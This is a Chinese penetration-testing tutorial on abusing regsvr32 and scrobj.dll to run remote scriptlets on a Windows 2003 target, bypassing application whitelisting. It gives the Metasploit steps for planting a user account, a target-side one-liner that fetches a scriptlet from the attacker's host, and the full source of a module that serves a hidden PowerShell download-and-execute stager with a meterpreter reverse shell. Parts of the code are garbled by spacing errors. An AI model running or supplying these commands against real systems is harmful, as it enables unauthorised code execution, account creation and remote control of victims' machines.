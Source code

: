 **注：**请多喝点热水或者凉白开，身体特别重要。

### Regsvr32简介：

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。但搭配regsvr32.exe使用的 DLL，需要提供 DllRegisterServer 和 DllUnregisterServer两个输出函式，或者提供DllInstall输出函数。

**说明：**Regsvr32.exe所在路径已被系统添加PATH环境变量中，因此，Regsvr32命令可识别。

Windows 2003 默认位置：
```bash
C:\WINDOWS\SysWOW64\regsvr32.exe
C:\WINDOWS\system32\regsvr32.exe
```


**攻击机：**192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003  

msf 已内置auxiliary版本的regsvr32_command_delivery_server，但是最新版已经无exploit版本regsvr32，文章结尾补充。

### 配置攻击机msf：
```bash
msf auxiliary(server/regsvr32_command_delivery_server) > use auxiliary/server/regsvr32_command_delivery_server
msf auxiliary(server/regsvr32_command_delivery_server) > set CMD net user Micropoor Micropoor /add
CMD => net user Micropoor Micropoor /add
msf auxiliary(server/regsvr32_command_delivery_server) > exploit 

[*] Using URL: http://0.0.0.0:8080/ybn7xESQYCGv
[*] Local IP: http://192.168.1.4:8080/ybn7xESQYCGv
[*] Server started.
[*] Run the following command on the target machine:

regsvr32 /s /n /u /i:http://192.168.1.4:8080/ybn7xESQYCGv scrobj.dll 
```
![](/img/415719c964de78a36a9cad8e7d273025.jpg)

### 靶机执行：
```bash
regsvr32 /s /n /u /i:http://192.168.1.4:8080/ybn7xESQYCGv scrobj.dll
```
![](/img/d6dba86fd41bcac90db86ecc3dc6e7e7.jpg)

![](/img/392c2c955e7d666b5015f30149866cf5.jpg)  

![](/img/d9c0e792eced1468f86880e42bc28a56.jpg)  

![](/img/d70caf10069603b0d0bffa73ecbabc29.jpg)

### 附：powershell 版 Regsvr32

**regsvr32_applocker_bypass_server.rb**
```ruby
##

# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit‐framework

## 

class MetasploitModule < Msf::Exploit::Remote
Rank = ManualRanking 

include Msf::Exploit::Powershell
include Msf::Exploit::Remote::HttpServer 

def initialize(info = {})
super(update_info(info,
'Name' => 'Regsvr32.exe (.sct) Application Whitelisting Bypass Serve r', 'Description' => %q(
This module simplifies the Regsvr32.exe Application Whitelisting Bypass technique.
The module creates a web server that hosts an .sct file. When the user types the provided regsvr32 command on a system, regsvr32 will request the .sct file and then execute the included PowerShell command.
This command then downloads and executes the specified payload (similar to the web_delivery module with PSH).
Both web requests (i.e., the .sct file and PowerShell download and execute) can occur on the same port.
),

'License' => MSF_LICENSE,
'Author' =>
[
'Casey Smith', # AppLocker bypass research and vulnerability discover y(\@subTee)
'Trenton Ivey', # MSF Module (kn0)
],
'DefaultOptions' =>
{
'Payload' => 'windows/meterpreter/reverse_tcp'
},
'Targets' => [['PSH', {}]],
'Platform' => %w(win),
'Arch' => [ARCH_X86, ARCH_X86_64],
'DefaultTarget' => 0,
'DisclosureDate' => 'Apr 19 2016',
'References' =>
[
['URL', 'http://subt0x10.blogspot.com/2016/04/bypass‐application‐whitelisting‐script.html']
]
))
end 

def primer
print_status('Run the following command on the target machine:')
print_line("regsvr32 /s /n /u /i:\#{get_uri}.sct scrobj.dll")
end 

def on_request_uri(cli, _request)
# If the resource request ends with '.sct', serve the .sct file
# Otherwise, serve the PowerShell payload
if _request.raw_uri =~ /\.sct$/
serve_sct_file
else
serve_psh_payload
end
end 

def serve_sct_file
print_status("Handling request for the .sct file from #{cli.peerhost}")
ignore_cert = Rex::Powershell::PshMethods.ignore_ssl_certificate if ssl
download_string = Rex::Powershell::PshMethods.proxy_aware_download_and_exec_string(get_uri)
download_and_run = "#{ignore_cert}#{download_string}"
psh_command = generate_psh_command_line(
noprofile: true,
windowstyle: 'hidden',
command: download_and_run
)
data = gen_sct_file(psh_command)
send_response(cli, data, 'Content‐Type' => 'text/plain')
end 

def serve_psh_payload
print_status("Delivering payload to #{cli.peerhost}")
data = cmd_psh_payload(payload.encoded,
payload_instance.arch.first,
remove_comspec: true,
use_single_quotes: true
)
send_response(cli,data,'Content‐Type' => 'application/octet‐stream')
end 

def rand_class_id
"#{Rex::Text.rand_text_hex 8}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex12}"
end 

def gen_sct_file(command)
%{<?XML version="1.0"?><scriptlet><registrationprogid="\#{rand_text_a lphanumeric 8}"
classid="{#{rand_class_id}}"><script><![CDATA[ var r = ne wActiveXObject("WScript.Shell").Run("#{command}",0);]]><script></registration></scriptlet>}
end 

end
```

**使用方法：**

copy regsvr32_applocker_bypass_server.rb to /usr/share/metasploit-framework/modules/exploits/windows/misc  

![](/img/f0b5c59eb47dd53e8780a31320b41113.jpg)

>   Micropoor
